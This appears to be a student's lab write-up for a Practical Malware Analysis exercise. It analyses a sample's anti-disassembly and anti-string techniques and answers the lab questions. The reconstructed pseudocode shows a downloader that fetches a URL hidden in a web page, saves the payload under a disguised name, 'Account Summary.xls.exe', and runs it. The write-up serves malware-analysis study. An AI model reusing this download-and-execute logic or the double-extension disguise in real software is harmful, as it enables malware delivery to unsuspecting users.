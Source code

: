 # Lab 15-02

## Findings

### Functions
![](20221006102418.png)  

 - Reference to web related APIs

### Strings
![](20221006102803.png)  

 - Some error messages and reference to bamboo
 - No static URL endpoints found

### Anti-Disassembly Techniques

#### Code Disassembled as bytes
![](20221006113314.png)  

 - Some parts of the code where not disassembled properly and were treated as data bytes

![](20221006113453.png)  

 - Manually force IDA Pro to assemble the data bytes as code
 - Now shows a subroutine `sub_40130F` being called, among other operations

#### Rogue instructions
![](20221006121940.png)  
![](20221006122634.png)  

#### Jump Instructions with the Same Target
![](20221006123548.png)  

### Anti-Strings Technique
![](20221006201726.png)  
![](20221006201742.png)  

### Pseudocode
```py
# Main Stack
[ebp-102B0h] -> hAccountFile
[ebp-102ACh] -> Buffer_2
[ebp-102A8h] -> cAccountSum
[ebp-102A4h] -> hInternet
[ebp-102A0h] -> Buffer
[ebp-2A0h] -> nCounter
[ebp-29Ch] -> hInternetOpen
[ebp-298h] -> BambooOffset
[ebp-294h] -> lpWSData
[ebp-104h] -> dwNumberOfBytesRead
[ebp-100h] -> cHostname
```

```py
def main(argc, argv):
    bWSResult = WSAStartup(0x202, lpWSData)
    if (!bWSResult):
        return

    bHNResult = gethostname(cHostname)
    if (!bHNResult):
        print("not enough name")
        return

    nCounter = 0
    while (nCounter < 0x100 || cHostname[nCounter] != null):
        cHNLetter = cHostname[nCounter]
        if (cHNLetter == 'Z'):
            cHostname[nCounter] = 'A'
            continue
        
        if (cHNLetter == 'z'):
            cHostname[nCounter] = 'z'
            continue

        if (cHNLetter == '9'):
            cHostname[nCounter] = '0'
            continue
        
        cHNLetter += 1
        cHostname[nCounter] = cHNLetter

    hInternet = InternetOpenA(cHostname, 1, 0, 0, 0)

    cUrl = GetUrl()
    hInternetOpen = InternetOpenUrlA(hInternet, cUrl, 0, 0, 0, 0)
    if (!hInternetOpen):      
        print("internet unable")
        return

    hFile = InternetReadFile(hInternetOpen, Buffer, 0x0FFFF, dwNumberOfBytesRead)
    if (!hFile):
        print("internet unable")
        return

    InternetCloseHandle(hInternetOpen)

    BambooOffset = strstr(hFile, "Bamboo::")
    if (!BambooOffset):
        return
    
    ColonOffset = strstr(BambooOffset, "::")

    cAccountSum = GetAccountSum()

    Buffer_2 = malloc(0xA00000)

    BambooOffset += 8 # Remove "Bamboo::"
    hInternetOpen = InternetOpenUrlA(hInternet, BambooOffset, 0, 0, 0, 0)

    InternetReadFile(hInternetOpen, Buffer_2, 0x10000, dwNumberOfBytesRead)

    hAccountFile = fopen(cAccountSum, "wb")
    fwrite(Buffer_2, dwNumberOfBytesRead, 1, hAccountFile)
    fclose(hAccountFile)

    ShellExecuteA(0, 0, cAccountSum, 0, 0, 0xA)

    return

def GetUrl():
    return "http://www.practicalmalwareanalysis.com/bamboo.html"

def GetAccountSum():
    return "Account Summary.xls.exe"

```

## Questions
### 1. What URL is initially requested by the program?
The url is `http://www.practicalmalwareanalysis.com/bamboo.html`.

### 2. How is the User-Agent generated?
It is generated by modifying the hostname with rotation of Z -> A, 9 -> 0 and adding 1 to each remaining characters.

### 3. What does the program look for in the page it initially requests?
The program looks for the substring `Bamboo::` within the received data. It will mark where the next url endpoint should be at.

### 4. What does the program do with the information it extracts from the page?
It send a request to the new URL and stored the received data into a file named `Account Summary.xls.exe`. Then it executes that given file in shell.
